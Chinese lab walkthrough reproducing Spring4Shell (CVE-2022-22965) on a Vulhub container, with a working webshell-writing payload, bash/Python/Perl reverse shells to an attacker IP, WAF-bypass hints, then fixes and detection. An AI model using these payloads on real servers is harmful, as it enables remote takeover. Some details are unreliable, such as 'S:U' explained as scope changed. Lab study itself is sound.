

## 案例十：Vulhub Spring4Shell漏洞复现（CVE-2022-22965）

> **案例定位**：本案例通过Vulhub靶场复现Spring4Shell这一影响范围极广的Java框架漏洞，深入理解Spring Framework内部的属性绑定机制、ClassLoader攻击面以及JSP WebShell写入技术。适合具备基础Java安全知识、正在学习框架级漏洞利用的读者。

---

### 10.1 漏洞背景与影响范围

#### 10.1.1 漏洞概述

小赵正在系统学习Java安全，决定复现Spring4Shell漏洞（CVE-2022-22965）。该漏洞是Spring Framework历史上最具影响力的远程代码执行漏洞之一，由安全研究员Tanzil Ibrahim于2022年1月向Spring Security团队报告，2022年3月31日正式公开披露。

漏洞公开后迅速引发广泛关注，因为它影响了Spring这一全球最流行的Java企业级框架，波及无数生产环境。其严重性在于：攻击者无需认证即可远程执行任意代码，完全接管服务器。

#### 10.1.2 CVSS评分与影响

| 指标 | 评分/描述 |
|------|-----------|
| CVE编号 | CVE-2022-22965 |
| CVSS v3评分 | 9.8（Critical） |
| CVSS向量 | AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H |
| 影响组件 | Spring Framework |
| 漏洞类型 | 远程代码执行（RCE） |
| 是否需要认证 | 否 |
| 是否可被自动利用 | 是（PoC已公开） |

CVSS向量解读：攻击路径为网络（N）、攻击复杂度低（L）、无需特权（N）、无需用户交互（N）、影响范围改变（S:U）、机密性/完整性/可用性均为高影响（H）——这意味着任何能访问目标端口的攻击者均可在默认条件下完成利用。

#### 10.1.3 受影响版本

```text
受影响范围：
├── Spring Framework 5.3.0 → 5.3.17
├── Spring Framework 5.2.0 → 5.2.19
├── Spring Framework 5.3.18+   ← 已修复（不受影响）
├── Spring Framework 5.2.20+   ← 已修复（不受影响）
├── Spring Boot 2.6.0 → 2.6.5
├── Spring Boot 2.5.0 → 2.5.11
└── Spring Boot 2.5.12+ / 2.6.6+ ← 已修复
```

> **注意**：该漏洞不影响独立部署的Spring MVC应用（非WAR包形式），仅影响以WAR包部署在Servlet容器（如Tomcat）中的应用。嵌入式Tomcat（Spring Boot内嵌）的利用方式有所不同但仍然可行。

#### 10.1.4 历史背景

Spring4Shell的发现过程体现了框架安全的深层挑战。Spring Framework的属性绑定机制是其核心特性之一——通过setter方法自动绑定请求参数到Java Bean。这一机制在设计时充分考虑了功能性，但对安全边界考虑不足。具体来说，`class.module.classLoader` 这条链路可以访问到JVM的ClassLoader层次结构，而Tomcat的ClassLoader暴露了可以修改Access日志配置的属性，两者的结合构成了完整利用链。

---

### 10.2 漏洞原理深度分析

#### 10.2.1 Java Bean属性绑定机制

Spring MVC在处理请求时，会将HTTP请求参数自动绑定到控制器方法的参数对象上。其核心流程如下：



关键问题在于：Spring的属性绑定允许通过点号（.）分隔符递归访问任意嵌套属性，而没有对访问路径做安全校验。攻击者可以构造如 `class.module.classLoader` 这样的路径来访问Java类的元数据和类加载器。

#### 10.2.2 利用链拆解

完整利用链可以分为四个阶段：

```text
攻击利用链（四阶段）
│
├── 阶段一：访问ClassLoader
│   class.module.classLoader → 获取Tomcat的WebappClassLoader
│
├── 阶段二：修改Access Log配置
│   classLoader.resources.context.parent.pipeline.first.pattern
│   → 修改Access日志的pattern字段
│   → 设置为包含JSP代码模板的格式字符串
│
├── 阶段三：配置日志文件输出
│   .suffix = .jsp
│   .directory = webapps/ROOT
│   .prefix = shell
│   .fileDateFormat = ""
│   → 将日志输出为 webapps/ROOT/shell.jsp
│
└── 阶段四：触发日志写入
    → 发送任意HTTP请求触发Access Log写入
    → JSP代码被写入文件并可被直接访问
```

**阶段一详解**：通过 `class.module.classLoader` 访问链，攻击者可以从任何Java对象回溯到其所属的 `Class` 对象（`class`），再通过 `Class` 访问 `Module`（Java 9+模块系统），最终获取 `ClassLoader`。这是Java反射机制的自然能力，问题在于Spring允许通过HTTP参数触发这种访问。

**阶段二详解**：Tomcat的 `org.apache.catalina.valves.AccessLogValve` 暴露了一系列setter方法，允许通过外部配置修改其行为。攻击者通过属性绑定链修改 `pattern` 属性，将其设置为恶意JSP模板。例如：

```text
pattern = %{c2}i if("j".equals(request.getParameter("pwd"))){ ... }
```

其中 `%{c2}i` 是AccessLogValve的格式化指令，用于插入特定的请求头值。Spring在写入日志时会执行格式化操作，将 `%{c2}i` 替换为实际请求头内容。

**阶段三详解**：设置日志文件的后缀为 `.jsp`、目录为 `webapps/ROOT`（Tomcat默认Web根目录）、前缀为 `shell`，使得日志文件以 `shell.jsp` 的形式存在且可被浏览器直接访问。

**阶段四详解**：发送任意HTTP请求即可触发AccessLogValve写入一条日志记录。由于pattern已被修改为包含恶意JSP代码，这条日志记录本身就是一段可执行的JSP WebShell。

#### 10.2.3 为什么JDK 9+是必要条件

该漏洞需要JDK 9+才能利用，原因在于Java模块系统的变化。在JDK 8中，`java.lang.Class` 没有 `getModule()` 方法，因此无法通过 `class.module` 路径访问模块信息。JDK 9引入模块系统后，`Class` 类新增了 `getModule()` 方法，使得 `class.module.classLoader` 这条攻击链成为可能。

#### 10.2.4 为什么需要Tomcat

漏洞利用依赖于Tomcat的 `AccessLogValve` 类，该类具有可被利用的setter方法（`setPattern`、`setSuffix`、`setDirectory` 等）。如果使用其他Servlet容器（如Jetty、Undertow），由于没有对应可利用的组件，标准利用方式不适用。但Jetty存在其他可能的利用路径，安全研究者已在不同容器上开发了变体利用方式。

---

### 10.3 触发条件与环境要求

| 条件 | 具体要求 | 说明 |
|------|---------|------|
| JDK版本 | JDK 9+ | 需要 `Class.getModule()` 方法 |
| Servlet容器 | Apache Tomcat | 需要AccessLogValve可利用 |
| Spring版本 | 5.2.x / 5.3.x 受影响版本 | 属性绑定存在缺陷 |
| 部署方式 | WAR包部署 | 需要ClassLoader层次结构可访问 |
| 网络条件 | 攻击者可访问8080端口 | 无需认证 |

**环境组合矩阵**：

| 容器 \ 部署方式 | WAR包 | 嵌入式（Spring Boot） |
|----------------|-------|---------------------|
| Tomcat | ✅ 标准利用 | ✅ 变体利用（需修改） |
| Jetty | ❌ 标准利用不适用 | ❌ 标准利用不适用 |
| Undertow | ❌ 标准利用不适用 | ❌ 标准利用不适用 |
| GraalVM | ⚠️ 有条件利用 | ⚠️ 有条件利用 |

---

### 10.4 环境部署

#### 10.4.1 前置准备

确保系统已安装Docker和Docker Compose：

```bash
# 检查Docker版本
docker --version
# Docker version 20.10.x 或更高

# 检查Docker Compose版本
docker compose version
# Docker Compose version v2.x 或更高
```

#### 10.4.2 克隆Vulhub并启动环境

```bash
# 克隆Vulhub仓库（如已克隆可跳过）
git clone https://github.com/vulhub/vulhub.git
cd vulhub

# 进入Spring4Shell靶场目录
cd spring/CVE-2022-22965

# 启动环境
docker compose up -d

# 查看启动状态（等待约30秒让Tomcat完全启动）
docker compose ps

# 查看日志确认启动成功
docker compose logs -f --tail=50
```

启动成功后，访问 `http://localhost:8080` 应能看到一个简单的Spring MVC应用页面。

#### 10.4.3 验证环境就绪

```bash
# 测试应用是否正常响应
curl -s http://localhost:8080/ | head -20

# 查看容器详情
docker compose exec web java -version
# 应显示JDK 9+版本

docker compose exec web cat /usr/local/tomcat/lib/spring-webmvc-*.jar 2>/dev/null | head -1
# 确认Spring版本在受影响范围内
```

#### 10.4.4 常见部署问题

| 问题 | 原因 | 解决方案 |
|------|------|---------|
| 端口被占用 | 本机8080端口已使用 | 修改 `docker-compose.yml` 中端口映射为 `8081:8080` |
| 容器启动后立即退出 | JDK版本不匹配 | 检查 `docker-compose.yml` 镜像版本是否正确 |
| `docker compose` 命令不存在 | Docker Compose未安装 | 使用 `docker-compose`（v1）或安装Docker Compose v2 |
| 拉取镜像超时 | 网络问题 | 配置Docker镜像加速器或使用代理 |
| 启动慢 | 首次拉取镜像较大 | 耐心等待，后续启动会显著加快 |

---

### 10.5 漏洞复现实战

#### 10.5.1 步骤一：构造恶意请求写入WebShell

这是整个利用过程的核心步骤。通过构造特殊的POST请求，修改Tomcat AccessLogValve的配置，将恶意JSP代码写入Web根目录。

```bash
# 发送恶意请求——修改AccessLogValve配置
curl -X POST "http://localhost:8080/?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
```

**URL解码后的恶意payload**（方便理解）：

```text
class.module.classLoader.resources.context.parent.pipeline.first.pattern =
    %{c2}i if("j".equals(request.getParameter("pwd"))){
        java.io.InputStream in = %{c1}i.getRuntime().exec(
            request.getParameter("cmd")
        ).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
    } %{suffix}i

class.module.classLoader.resources.context.parent.pipeline.first.suffix = .jsp
class.module.classLoader.resources.context.parent.pipeline.first.directory = webapps/ROOT
class.module.classLoader.resources.context.parent.pipeline.first.prefix = shell
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat =
```

**每个参数的作用**：

| 参数 | 值 | 作用 |
|------|-----|------|
| `pattern` | JSP代码模板 | 日志格式化模板，写入后成为可执行的JSP代码 |
| `suffix` | `.jsp` | 日志文件后缀，使输出文件被当作JSP处理 |
| `directory` | `webapps/ROOT` | 日志输出目录，指向Tomcat的Web根目录 |
| `prefix` | `shell` | 日志文件前缀，输出文件为 `shell.jsp` |
| `fileDateFormat` | `（空）` | 日期格式，留空避免在文件名中附加时间戳 |

**注意事项**：

1. **必须使用POST方法**——GET参数长度可能不够，且POST确保参数不会被URL编码干扰
2. **请求必须先触发一次日志写入**——修改pattern后，需要发送一个能触发AccessLog写入的请求（通常POST本身就触发）
3. **fileDateFormat必须为空**——否则文件名会附加日期格式，无法直接猜测文件名

#### 10.5.2 步骤二：触发日志写入

修改AccessLogValve配置后，发送任意请求触发日志写入：

```bash
# 发送一个普通请求触发Access Log写入
curl -s "http://localhost:8080/"

# 此时 shell.jsp 应已被写入 webapps/ROOT/ 目录
```

> **关键点**：即使步骤一的POST请求已经触发了一次日志写入，为保险起见，建议再发送一个明确的请求来确保WebShell被写入。

#### 10.5.3 步骤三：验证WebShell

```bash
# 访问写入的WebShell并执行命令
curl "http://localhost:8080/shell.jsp?pwd=j&cmd=id"

# 预期输出：
# uid=0(root) gid=0(root) groups=0(root)
```

如果返回了系统用户信息（如上），说明漏洞利用成功，WebShell已正常工作。

**进一步验证**：

```bash
# 查看当前工作目录
curl "http://localhost:8080/shell.jsp?pwd=j&cmd=pwd"

# 查看系统进程
curl "http://localhost:8080/shell.jsp?pwd=j&cmd=ps+aux"

# 查看网络连接
curl "http://localhost:8080/shell.jsp?pwd=j&cmd=netstat+-tlnp"

# 查看系统信息
curl "http://localhost:8080/shell.jsp?pwd=j&cmd=uname+-a"
```

#### 10.5.4 步骤四：获取反弹Shell

WebShell虽然可以执行命令，但功能有限（无交互式终端）。实际渗透测试中通常需要获取反弹Shell：

```bash
# ===== 方法一：使用nc反弹Shell =====

# 攻击机（Kali等）监听端口
nc -lvp 4444

# 通过WebShell执行bash反弹Shell
# Base64编码的命令：bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
curl "http://localhost:8080/shell.jsp?pwd=j&cmd=bash+-c+'{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAwLzQ0NDQgMj4mMQ==}|{base64,-d}|{bash,-i}'"
```

**Base64编码解析**：

```bash
# 解码查看实际执行的命令
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAwLzQ0NDQgMj4mMQ==" | base64 -d
# 输出：bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
```

> **重要提醒**：Base64编码可以绕过URL编码问题和特殊字符过滤。在实际利用中，反弹Shell的IP地址需要替换为攻击机的真实IP。

```bash
# ===== 方法二：使用Python反弹Shell =====
curl "http://localhost:8080/shell.jsp?pwd=j&cmd=python3+-c+'import+socket,subprocess,os;s=socket.socket();s.connect((%22192.168.1.100%22,4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([%22/bin/bash%22,%22-i%22])'"

# ===== 方法三：使用Perl反弹Shell =====
curl "http://localhost:8080/shell.jsp?pwd=j&cmd=perl+-e+'use+Socket;%24i=%22192.168.1.100%22;%24p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22));if(connect(S,sockaddr_in(%24p,inet_aton(%24i)))){open(STDIN,%22>%26S%22);open(STDOUT,%22>%26S%22);open(STDERR,%22>%26S%22);exec(%22/bin/bash+-i%22)};'"
```

#### 10.5.5 步骤五（可选）：利用Metasploit自动化

对于熟悉Metasploit框架的读者，可以使用自动化模块进行利用：

```bash
# 启动Metasploit
msfconsole

# 搜索Spring4Shell相关模块
msf6 > search spring4shell

# 使用exploit模块（如存在）
msf6 > use exploit/multi/http/spring4shell_rce
msf6 > set RHOSTS localhost
msf6 > set RPORT 8080
msf6 > set TARGETURI /
msf6 > exploit
```

---

### 10.6 防御与检测

#### 10.6.1 修复方案

**方案一：升级Spring Framework（推荐）**

```xml
<!-- Maven pom.xml -->
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-webmvc</artifactId>
    <version>5.3.18</version>  <!-- 或更高版本 -->
</dependency>

<!-- Gradle build.gradle -->
implementation 'org.springframework:spring-webmvc:5.3.18'
```

**方案二：升级Spring Boot**

```xml
<!-- 升级到不受影响的Spring Boot版本 -->
<parent>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>2.6.6</version>  <!-- 或更高版本 -->
</parent>
```

**方案三：临时缓解措施（无法升级时）**

在 `web.xml` 中添加 `Binder` 组件的过滤器，阻止对 `class.classLoader` 属性的访问：

```java
@Component
public class ClassLoaderForbiddenPropertiesFilter implements Filter {
    
    private static final List<String> FORBIDDEN_PROPERTIES = Arrays.asList(
        "class.module.classLoader",
        "class.module.classLoader.resources",
        "class.classLoader"
    );
    
    @Override
    public void doFilter(ServletRequest request, ServletResponse response,
                         FilterChain chain) throws IOException, ServletException {
        HttpServletRequest httpRequest = (HttpServletRequest) request;
        String queryString = httpRequest.getQueryString();
        
        if (queryString != null) {
            String decoded = URLDecoder.decode(queryString, StandardCharsets.UTF_8);
            for (String prop : FORBIDDEN_PROPERTIES) {
                if (decoded.contains(prop)) {
                    ((HttpServletResponse) response).sendError(
                        HttpServletResponse.SC_BAD_REQUEST, "Forbidden parameter"
                    );
                    return;
                }
            }
        }
        chain.doFilter(request, response);
    }
}
```

#### 10.6.2 检测方法

```bash
# 方法一：检测AccessLogValve是否被修改
docker compose exec web cat /usr/local/tomcat/logs/localhost_access_log.*.txt 2>/dev/null | grep "getRuntime"

# 方法二：检测WebShell文件是否存在
docker compose exec web find /usr/local/tomcat/webapps/ROOT -name "shell.jsp" -o -name "*.jsp" | grep -v META-INF

# 方法三：使用Nuclei扫描器检测
nuclei -t http/cves/2022/CVE-2022-22965.yaml -u http://target:8080/

# 方法四：查看Spring版本
curl -s http://localhost:8080/ -I | grep -i spring
```

#### 10.6.3 清理利用痕迹

复现完成后，务必清理环境：

```bash
# 停止并删除Vulhub环境
cd vulhub/spring/CVE-2022-22965
docker compose down -v

# 删除已下载的镜像（可选）
docker rmi vulhub/spring:5.3.17
```

---

### 10.7 常见误区与排错

| 误区/错误 | 正确做法 |
|----------|---------|
| 认为该漏洞影响所有Spring应用 | 仅影响WAR包部署在Tomcat上的应用 |
| 认为Spring Boot不受影响 | 嵌入式Tomcat也存在变体利用方式 |
| 利用后不清理WebShell | 始终清理利用痕迹，避免安全风险 |
| 忽略fileDateFormat参数 | 必须设置为空，否则文件名不可预测 |
| 直接使用HTTP GET发送长payload | 使用POST方法，避免URL长度限制 |
| 忽略Base64编码中的引号 | 反弹Shell命令中的引号需要正确转义 |

**典型错误排查**：

```bash
# 错误：curl返回404 shell.jsp不存在
# 排查：检查AccessLogValve配置是否正确
docker compose exec web cat /usr/local/tomcat/conf/server.xml | grep AccessLogValve

# 错误：WebShell存在但执行命令无输出
# 排查：检查pwd参数是否正确（默认为"j"）
curl "http://localhost:8080/shell.jsp?pwd=j&cmd=echo+test"

# 错误：反弹Shell连接超时
# 排查：确认攻击机IP和端口正确，防火墙未阻止
# 注意：Docker容器内的网络可能与宿主机不同
```

---

### 10.8 进阶利用与研究方向

#### 10.8.1 变体利用

除了标准的Tomcat AccessLogValve利用方式外，安全研究者还发现了多种变体：

1. **Tomcat日志利用变体**：修改 `classLoader.resources.context.parent.pipeline.first` 链路上的其他属性，实现不同的文件写入效果
2. **非Tomcat容器利用**：在Jetty等其他Servlet容器上寻找可利用的类，构建不同的利用链
3. **嵌入式环境利用**：Spring Boot嵌入式Tomcat的ClassLoader结构有所不同，需要调整属性路径
4. **绕过WAF的技巧**：使用参数名混淆、URL编码、Unicode编码等方式绕过基于签名的WAF检测

#### 10.8.2 安全研究方向

1. **其他框架的属性绑定安全**：研究Jakarta Bean Validation、Apache Struts等框架是否存在类似的属性绑定漏洞
2. **ClassLoader安全模型**：深入研究JVM的ClassLoader层次结构和安全边界
3. **Java模块系统安全**：Java 9+模块系统（JPMS）对安全的影响，模块封装是否能提供额外保护
4. **供应链安全**：Spring Framework漏洞对企业级应用供应链的深远影响

---

### 10.9 学习收获

通过本次Spring4Shell漏洞复现，深入理解了以下核心知识点：

1. **Spring Framework属性绑定机制**：理解了Spring MVC如何通过 `BeanWrapper` 和反射机制实现请求参数到Java对象的自动绑定，以及这种机制在安全方面的设计缺陷
2. **Java类加载器层次结构**：掌握了JVM中 `BootstrapClassLoader → ExtensionClassLoader → ApplicationClassLoader → WebappClassLoader` 的层次关系，以及如何通过反射链路访问这些组件
3. **Tomcat AccessLogValve安全风险**：认识到Tomcat日志组件的setter方法暴露了配置修改的攻击面，这类"功能性接口被滥用"的模式在安全领域非常常见
4. **WebShell写入技术**：学习了利用服务器日志功能写入JSP WebShell的技巧，这是Java Web安全中的经典攻击手法
5. **漏洞修复策略**：理解了"升级框架版本"和"配置层面缓解"两种修复思路的适用场景和实施方法
6. **安全研究方法论**：从漏洞发现、原理分析、利用复现到防御修复的完整安全研究流程

---

### 10.10 延伸阅读

| 资源 | 链接/说明 |
|------|----------|
| Spring官方公告 | https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement |
| NVD漏洞详情 | https://nvd.nist.gov/vuln/detail/CVE-2022-22965 |
| Vulhub靶场 | https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22965 |
| 初始报告分析 | https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement |
| Talos漏洞分析 | https://blog.talosintelligence.com/spring4shell/ |
| MITRE ATT&CK | T1190 - Exploit Public-Facing Application |
